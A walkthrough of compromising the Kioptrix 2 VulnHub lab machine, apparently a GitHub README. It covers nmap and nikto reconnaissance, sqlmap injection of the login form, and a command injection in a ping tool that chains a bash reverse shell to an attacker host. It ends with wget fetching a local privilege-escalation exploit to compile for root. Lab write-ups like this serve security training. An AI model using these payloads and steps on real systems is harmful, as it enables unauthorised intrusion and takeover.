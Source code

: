 ### target:		kioptrix2 by Kioptrix Team 

### hosted by:		vulnhub.com

### virtualization:	virtualbox

### testing platform:	kali linux 2017

### walkthrough by:	worzel_gummidge



**nmap** is used to aquire the IP of the target and to perform port and os fingerprinting scans.

```bash
nmap 192.168.56.103 -T5 -n -A -sC -p0-65535
```



7 open ports are discovered through the scan: tcp22(ssh), tcp80(http), tcp111(rpcbind), tcp143(https), tcp631(ipp), tcp650(rpc, )tcp3306(mysql)

**nikto** and **dirb** are used to probe all *http* ports further.

```bash
nikto -h 192.168.56.103
```

```bash
dirb http://192.168.56.103 /usr/share/dirb/wordlists/big.txt
```



on browsing the website hosted on the machine, the attacker is served with a login form.

using **burp** to intercept the request and capture it, attacker uses **sqlmap** to look for *sql injection* vulnerabilities. the *"username"* field is vulnerable and **sqlmap** is able to exploit it to get login credentials of the main page.

![screenshot of intercepted post request](assets/1.png "request-file")

```bash
sqlmap -r sqlkiop.txt --level 5 --risk 3 --dump-all
```



the attacker uses admin credentials to login. he/she is granted with access to a ping tool. by chaining the ping command with another linux command, the attacker is able to expose a command execution vulnerability in the web application.

![screenshot of ping tool hosted on victim's site](assets/2.png "command injection")

By setting up a listener through **netcat** and chaining a reverse bash command to the ping command, the attacker is able to spwan a reverse shell with low priviledges.

```bash
nc -lvp 443
```

```bash
192.168.56.103; bash -i >& /dev/tcp/192.168.56.101/443 0>&1
```



![screenshot of remote shell](assets/3.png "shell!")



**searchsploit** is used to search for suitable priviledge escalation exploits. once the attacker identifies an exploit, he/she uses **wget** to download the exploit from his/her local machine to the target server add it is compiled using **gcc** and run.

```bash
cd /tmp; wget 192.168.56.101/9545.c
gcc -Wall -o 9545 9545.c
```



the attacker has root.

![screenshot: attacker has shell](assets/4.png "root!")
